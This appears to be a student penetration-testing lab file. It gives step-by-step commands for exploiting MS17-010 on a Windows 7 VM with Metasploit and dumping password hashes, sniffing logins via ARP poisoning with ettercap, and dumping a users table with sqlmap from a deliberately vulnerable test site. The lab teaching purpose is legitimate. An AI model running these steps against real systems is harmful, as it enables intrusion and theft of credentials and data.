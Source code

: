 # practical 1

### Perform Penetration Testing to identify, assess, and exploit vulnerabilities in systems, applications, and networks using tools like Nmap, Nessus, Metasploit or Burp Suite

> OPEN KALI <br>
> OPEN WINDOWS 7  [download_from_here](https://drive.google.com/file/d/10dABmneWDDuFgk7L0Jy6OUBUdTsrUcok/view?usp=sharing)

Set network adapter as ``nat network``
- setting>network>select nat network>click ok

1. Scan the devices on the network 
```bash 
sudo arp-scan -l -I eth0 
```
2. perform following command on each ip address to identify the target os as windows 7 
```bash
sudo nmap -o ip_address
```
3. nmap vulnerabilty scan to identify the vulnerability 
```bash
sudo nmap -sV --script=vuln -oN win_nmap_result  ip_address_of_windows
```
4. Got smb vulnerability  ms17-010 , search the exploit
```bash
search  ms17-010
```
5. start msfconsole
```bash
msfconsole
```
6. search ms17-010 in the msf6>
```bash
search ms17-010
```
7. use the payload
```bash
use 0
```
8. use show options commands 
```bash
show options
```
9. set Rhost as windows ip
```bash
set RHOST ip_wind7
```
10. set LHOST as kali ip
```bash
set LHOST ip_kali
```
11. use exploit 
```bash
exploit
```
12.metapreter will open 
```bash 
screenshare
```

extra commands for password cracking 

```bash
sysinfo
```

```bash
hashdump
```
copy the john:1000 last : text and paste it in crackstation 

---

# Practical 2

### Perform passive footprinting 
For footprinting use tool P0F 

steps:
1. run the tool & open any website on google chrome
```bash 
p0f
```
you can see all the packets transmission from one end to another with their ip addresses 

2. use command to see the available source for footprinting
```bash
p0f -L
```

3. select the eth0
```bash
p0f -L eth0 -o /home/kali/output.txt
```
-o flag is used to store the output 

4. open the output stored file
```bash
open output.txt 
```

here u can see all the activity stored which is  analyze by the tool

---
# Practical 3
### Perform mitm attack 

use ettercap tool
> open the window7 machine with password "alqfna22"

> search the tool in the searchbar in kali
open it

>click on tick option that is start attack


>click on 3 dots and select scan for hosts 

>you will get host list 

>add the last ip to target 1 

>add first ip as default gateway to target 2

>select MITM option 

>select ARP poisoning 

>select sniff remote connections 

Go to windows 7 and open test.php.vulnweb.com

login there using any username and password

again come back to kali in ettercap

> u can see the content uname and password

---
# PRACTICAL 5

### perform sqlinjection attack

steps 

1. open test.php.vulnweb.com , go to artist section and copy ling parameter 
eg .http://test.php.vulnweb.com/artists.php?artist=2

2. open kali terminal install sqlmap
```bash
sudo apt install sqlmap
```

3. find database of the website 
```bash
sqlmap -u "http://test.php.vulnweb.com/artists.php?artist=2" --dbs
```

4. find the tables from the database 
```bash
sqlmap -u "http://test.php.vulnweb.com/artists.php?artist=2" -D acucart --tables
```

5. Dump the details from the table users 
```bash
sqlmap -u "http://test.php.vulnweb.com/artists.php?artist=2" -D acucart -T users 
--dump
```

DONE !!!!!